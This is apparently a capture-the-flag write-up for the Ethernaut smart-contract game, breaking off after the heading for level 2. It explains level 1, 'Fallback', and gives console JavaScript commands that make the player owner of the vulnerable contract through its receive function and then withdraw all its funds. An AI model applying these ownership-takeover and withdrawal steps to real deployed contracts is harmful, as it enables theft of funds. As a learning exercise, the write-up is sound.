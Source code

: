 # Ethernat-Solution-and-Explanation
## 1. Fallback ★☆☆☆☆
### Level Target

1. Take ownership of the contract.
2. Withdraw all funds from the contract. (Only the owner can do so)

### Break Down & Analyze

1. Two ways to take ownership:
    1. Contribute more eth than the owner does → unrealistic, you can’t contribute more than 0.001 ether at one transaction, and the owner already has 1000 ether of contribution when the contract is built. (unfair, right?)
    2. So the other way to hack the contract is from receive function, in order to call receive, you’ll need to satisfy two conditions.
        * send some eth when calling receive.
        * already had contributions before.
        
        Once you meet these two conditions and successfully call receive, the first target is fulfilled.
        
2. Only the owner can withdraw the funds:
    1. Since only the owner can withdraw funds, it is required to complete the first target before this step.
    2. Once you become the owner, it is effortless to withdraw all the funds!

### Detailed Steps (work in the console)
```js
await contract.contribute({ value: toWei("0.000001") }) // contribute first, so that you'll be able to call receive
await contract.getContribution().then(fund => fromWei(fund.toString())) // confirm that you have contributed
await sendTransaction({from: player, to: contract.address, value: toWei('0.000001')}) // call receive with some ether sent
let owner = await contract.owner() // get who is the owner now
owner === player // check if you're the owner
await contract.withdraw() // take all the funds out from the contract!!!
```

## 2. Fallout ★☆☆☆☆
